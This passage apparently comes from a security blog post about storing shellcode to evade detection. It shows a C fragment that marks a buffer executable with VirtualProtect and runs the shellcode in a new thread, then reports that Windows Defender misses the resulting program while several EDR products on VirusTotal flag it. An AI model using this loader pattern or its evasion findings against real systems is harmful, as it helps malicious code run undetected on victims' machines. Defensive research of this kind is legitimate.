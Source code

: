 ```c

DWORD oldProtect = 0;
//Change permissions of memory region so it can be executed
result1 = VirtualProtect(buffer, DEFAULT_BUFLEN, PAGE_EXECUTE_READ, &oldProtect);
if (result1 == 0) {
    printf("[-] Failed to change protection value for memory region\n");
    return 10;
}

//Execute shellcode via a newly created thread
hThread = CreateThread(NULL, DEFAULT_BUFLEN, buffer, NULL, 0, NULL);
if (hThread == NULL) {
    printf("Failed to create thread %d\n", GetLastError());
    return 11;
}
WaitForSingleObject(hThread, INFINITE);
```

## How Well Does This Fair Against EDRs?

Although Windows Defender has been joked about in the past about not being able to detect malicious threats, in all fairness it has gotten significantly better in the past few years. The question has to be asked though, how well does “fileless malware” evade EDRs? Arguments can be made for both sides of an improvement in detection or not. I lean towards the side of EDRs have a significantly higher chance of detecting “fileless malware” than traditional antivirus engines. The server application that was created is not flagged by Windows Defender at all, as can be seen below.

![Threat Check](/assets/img/Can-Shellcode-be-Stored-Anywhere-to-Avoid-Detection/threatCheck.png)

But based on scans via VirusTotal, EDR platforms such as CrowdStrike, SentinelOne, and Symantec all detected the program as malicious.

![Virustotal EDR Detections](/assets/img/Can-Shellcode-be-Stored-Anywhere-to-Avoid-Detection/virustotalEDRs.png)
